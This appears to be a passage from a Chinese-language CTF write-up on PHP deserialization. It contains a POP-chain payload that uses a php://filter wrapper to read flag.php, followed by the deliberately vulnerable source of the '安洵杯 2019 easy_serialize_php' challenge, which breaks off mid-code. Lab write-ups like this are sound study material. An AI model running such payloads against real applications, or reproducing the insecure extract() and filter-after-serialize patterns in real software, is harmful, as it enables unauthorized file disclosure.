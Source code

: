恰好`Show`对象的`__wakeup()`方法，将属性`source`当为字符串处理，如果`source`也是一个`show`对象呢

那么构造payload
```php
<?php
    class Show{
        public $source;
        public $str;
    }

    Class Modifier{
        protected $var="php://filter/read=convert.base64-encode/resource=flag.php";
    }

    Class Test{
        public $p;
    }

    $a=new Show();
    $a->source=new Show();
    $a->source->str=new Test();
    $a->source->str->p=new Modifier();


    echo urlencode(serialize($a));
?>
```
# \<安洵杯 2019>easy_serialize_php
打开题目，得到源码
```php
<?php

$function = @$_GET['f'];

function filter($img){
    $filter_arr = array('php','flag','php5','php4','fl1g');
    $filter = '/'.implode('|',$filter_arr).'/i';
    return preg_replace($filter,'',$img);
}


if($_SESSION){
    unset($_SESSION);
}

$_SESSION["user"] = 'guest';
$_SESSION['function'] = $function;

extract($_POST);

if(!$function){
    echo '<a href="index.php?f=highlight_file">source_code</a>';
}

if(!$_GET['img_path']){
    $_SESSION['img'] = base64_encode('guest_img.png');
}else{
    $_SESSION['img'] = sha1(base64_encode($_GET['img_path']));
}

$serialize_info = filter(serialize($_SESSION));

if($function == 'highlight_file'){
```
